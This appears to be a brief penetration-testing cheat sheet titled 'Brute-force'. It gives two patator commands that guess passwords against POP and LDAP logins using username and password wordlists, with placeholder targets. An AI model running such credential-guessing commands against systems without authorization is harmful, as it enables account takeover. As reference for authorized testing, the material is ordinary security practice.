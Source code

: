 # Brute-force

## POP

```text
python patator.py pop_passd host=<ip> user=FILE0 password=FILE1 0=usernames.txt  1=top-1000.txt -x ignore:code=500
```

## LDAP

```text
python patator.py ldap_login host=<target> binddn='CN=FILE0,dc=<domain>,dc=<fqdn>' bindpw=FILE1 0=users.txt 1=passwords.txt
```

